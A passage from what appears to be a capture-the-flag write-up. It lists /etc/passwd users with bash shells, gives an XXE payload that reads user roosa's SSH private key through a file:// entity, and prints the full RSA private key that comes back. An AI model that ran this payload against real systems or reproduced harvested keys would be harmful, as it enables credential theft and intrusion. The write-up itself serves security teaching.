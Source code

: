 ![](https://miro.medium.com/max/1362/1*HQU-9JPx83QcvKLpeTWqMg.png)

Filter the result on users that have a /bin/bash shell assigned to them.

```text
root:x:0:0:root:/root:/bin/bash
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
```

The _user.txt_ file is probably in the _roosa_ home directory. Since SSH is the only other port that is open, let’s check if _roosa_ has an SSH private key in her home directory.

```text
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/roosa/.ssh/id_rsa'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```

![](https://miro.medium.com/max/1413/1*QsmCDc4Kdfm_RIEvo426Nw.png)

Perfect! Save the content of the private key in file _roosa\_id\_rsa_.

```text
-----BEGIN RSA PRIVATE KEY-----MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=-----END RSA PRIVATE KEY-----
```

